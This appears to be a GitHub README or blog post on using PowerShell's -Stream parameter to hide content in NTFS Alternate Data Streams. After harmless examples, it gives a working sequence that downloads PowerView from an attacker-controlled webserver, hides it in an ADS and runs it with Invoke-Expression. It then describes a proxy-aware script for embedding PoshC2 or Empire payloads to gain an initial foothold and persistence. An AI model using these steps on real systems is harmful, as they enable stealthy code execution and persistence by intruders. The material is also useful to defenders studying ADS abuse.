 # Alternate-Data-Streams with PowerShell

I literally stumbled upon this whilst reading up on the parameters for the Get-Content and Set-Content cmdlets for another piece of research.
The paramemeter that got my interest is -Stream which allows the user the ability to read and write NTFS alternate data streams.
If we create a file with the following commands;
```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
```
To read the file content, we use the following;
```powershell
Get-Content -Path $file
```
Which will return;
```powershell
Alternate Data Stream Test File
```

## Hiding Content
As I mentioned above the -Stream parameter lets the user access the 'Hidden' NTFS Alternate Data Stream.
A simple example using the file created above;
```powershell
Add-Content -Path $file -Value 'Hidden Data' -Stream 'hiddenstream'

Get-Content -Path $file -Stream 'hiddenstream'
```
## Something More Useful
This is great, however not so much use, so what if we could hide something a touch more useful, say PowerView?
Taking the simple Proof of Concept - alternate-data-stream.txt from the repository, we create a new file as above, put some content in the file, however we now download a payload, (PowerView.ps1 in this example), from a webserver we control and hide it in an NFTS Alternate Data Stream, (called powerview).Finally we grab the content from the ADS and execute it.

```powershell
$file = "$env:TEMP\test.txt"
Set-Content -Path $file -Value 'Alternate Data Stream Test File'
Get-Content -Path $file
Alternate Data Stream Test File

$pvfile = Invoke-WebRequest -Uri http://192.168.0.105:8000/powerview.ps1
Add-Content -Encoding Byte -Path $file -Value $pvfile.Content -Stream 'powerview'
Invoke-Expression (Get-Content -Path $file -Stream 'powerview' -Raw)
```

Taking things further I put together a PowerShell script that creates a random filename with a randomish amount of random content and a random ADS name. The script asks the user for the uri of the payload to download and embed into the freshly created file. Also in this example the dowload process is able to detect webproxy settings and use the current users credentials, (Proxy Aware).

## The script should be ran . sourced i.e.
```powershell
. ./Invoke-ADS.ps1
```
Further uses could be to download a payload, say a standard PoshC2 or Empire base64 encoded payload and hide it in a file and use this as the intial foothold and a persistence method.